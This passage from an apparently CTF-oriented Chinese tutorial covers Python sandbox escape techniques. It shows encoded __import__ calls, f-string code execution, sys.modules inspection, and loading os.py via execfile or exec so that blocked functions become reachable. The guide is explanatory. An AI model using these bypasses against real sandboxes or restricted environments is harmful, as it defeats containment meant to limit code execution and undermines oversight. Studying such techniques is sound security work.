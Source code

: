 也可以使用 `# coding:<encoding>` 编码整个文件.

---

## import 花式处理

import 关键字用来导入包，沙箱中对一些包或是函数进行了屏蔽，从 import 的不同方法到 import 的本质有多种不同的绕过方法。

### 使用其他的方式来导入其他包名
```py
__import__('pwn').__dict__["elf"]

__import__('Y29tbWFuZHM='.decode('base64')).getoutput('pwd')

import importlib

x = importlib.import_module('pbzznaqf'.decode('rot_13'))
print x.getoutput('pwd')
```

---

## f修饰符

在PEP 498(python > 3.6.0)中引入了新的字符串类型修饰符:f或F,用f修饰的字符串将可以执行代码.可以理解为字符串外层套了一个exec().
```py
f'{print("test")}'
```

---

## 模块路径

Python 中的所有包都是以 .py 文件的形式存在的，说明所有 import 进来的包一开始都预先在某个位置了。一般和系统相关的信息都在 sys 下，使用 sys.path 查看各个包的路径：
```py
import sys

print sys.path

# sys 下还有一个 modules，返回一个字典，其中可以查看各个模块对应的系统路径。如果修改这个字典中的内容，前面使用的方法就都失效了
print sys.modules['os']
```

如果把 sys、os、reload 等一系列模块都过滤掉了，使用什么方法来绕过呢？导入模块的过程其实就是把对应模块的代码执行一遍的过程，在知道模块对应路径的情况下，就可以相应地执行它：
```py
execfile('/usr/lib/python2.7/os.py')
system('pwd')
```

在 execfile 被禁止的情况下，还可以用 open 读入文件，并使用 exec 来执行相应的代码：
```py
code = open('/usr/lib/python2.7/os.py', 'r').read()
exec code

print getcwd()
```

---